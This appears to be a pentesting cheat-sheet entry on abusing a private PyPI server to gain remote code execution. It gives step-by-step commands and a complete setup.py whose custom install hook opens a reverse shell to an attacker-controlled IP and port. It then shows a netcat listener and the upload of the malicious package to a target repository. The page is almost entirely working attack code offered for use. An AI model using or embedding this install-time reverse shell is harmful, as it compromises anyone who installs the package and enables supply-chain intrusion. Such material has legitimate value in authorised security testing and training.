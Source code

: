 ```yaml
---
title: "Pypi"
date: 2024-7-19
tags: ["python", "pypi", "package", "rce"]
---
```


### Abuse #1: Remote Pypi Server

#### 1. Create files

```console
mkdir evil_package
```

```console
mkdir evil_package/evil_package
```

```console
cd evil_package
```

```console
touch README.md
```

```console
touch evil_package/__init__.py
```

```console
touch setup.cfg
```

```console
touch setup.py
```

#### 2. Replace setup.py

```console
#!/usr/bin/env python3

from setuptools.command.install import install
from setuptools import setup
import os
import socket
import subprocess

class Exploit(install):
    def run(self):
        s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
        s.connect(("<LOCAL_IP>",<LOCAL_PORT>)) # CHANGE HERE
        os.dup2(s.fileno(),0)
        os.dup2(s.fileno(),1)
        os.dup2(s.fileno(),2)
        p = subprocess.call(["/bin/sh", "-i"])

setup(name="evil_package",
      version="1.0.0",
      description="Evil Package",
      author="user",
      author_email="user@<DOMAIN>",
      url="http://<DOMAIN>",
      license="MIT",
      zip_safe=False,
      cmdclass={"install": Exploit})
```

#### 3. Create ~/.pypirc

```console
[distutils]
index-servers =
  <EXAMPLE>
[<EXAMPLE>]
repository: http://<TARGET_DOMAIN>
username: <USER>
password: <PASSWORD>
```

#### 4. Exploit

```console
# Open a nc listener
rlwrap nc -lvnp <LOCAL_PORT>
```

<br>

```console
# Create an archive
python3 setup.py sdist
```

```console
# Upload
python3 setup.py sdist upload -r <EXAMPLE>
```
